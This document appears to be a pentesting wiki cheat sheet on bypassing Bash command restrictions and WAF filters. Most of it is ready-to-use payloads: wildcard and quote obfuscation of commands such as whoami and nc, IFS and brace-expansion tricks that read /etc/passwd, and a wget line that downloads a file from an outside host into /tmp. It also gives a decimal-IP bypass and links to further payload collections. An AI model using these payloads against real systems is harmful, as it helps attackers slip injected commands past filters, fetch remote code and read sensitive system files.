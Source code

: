 # Bypass Bash Restrictions

## Bypass Paths and forbidden commands

```bash
#Bash substitudes * fror any possible chat tha refers to a binary in the folder
/usr/bin/p?ng #This equals /usr/bin/ping

#Bash substitudes * fror any compatible combination with a binary in the folder
/usr/bin/who*mi #This equals /usr/bin/whoami

#[chars]
/usr/bin/n[c] #/usr/bin/nc

#Concatenatipn
'p'i'n'g #Equals to call ping
"w"h"o"a"m"i
\u\n\a\m\e \-\a

#Uninitialized variables: A uninitialized variable equals to null (nothing)
p${u}i${u}n${u}g #Equals to ping, use {} to put the uninitialized variables between valid characteres
cat$u /etc$u/passwd$u #Use the uninitilized variable without {} before any symbol

#Fake commands
p$(u)i$(u)n$(u)g #Equals to ping but 3 errors trying to exeute "u" are shown
w`u`h`u`o`u`a`u`m`u`i #Equals to whoami but 5 errors trying to exeute "u" are shown

#Concating strings using history
!-1 #This will be substitude by the last command executed, and !-2 by the penultimate command
mi #This will throw an error
whoa #This will throw an error
!-1!-2 #This will execute whoami
```

## Bypass forbidden spaces

```bash
##{form}
{cat,lol.txt} #This will cat the file

##IFS - Internal field separator, change " " for any othe character ("]" in this case)
#IFS withut modifications
cat${IFS}/etc/passwd
cat$IFS/etc/passwd

#Put the command line in a variable and then execute it
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b #Using 2 ";"
IFS=,;`cat<<<cat,/etc/passwd` #Using cat twice
#Other way, just change each space for ${IFS}
echo${IFS}test

##Using hex format
X=$'cat\x20/etc/passwd'&&$X

##New lines
p\
i\
n\
g #This 4 lines will equal to ping

##Undefined variables and !
$u $u#This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a #This equals to uname -a
```

## Bypass IPs

```bash
#Decimal IPs
127.0.0.1 == 2130706433
```

## More

Check more possible bypasses here: [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection\#exploits](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#exploits)

## References

{% embed url="https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0" caption="" %}

{% embed url="https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0" caption="" %}

{% embed url="https://www.secjuice.com/web-application-firewall-waf-evasion/" caption="" %}

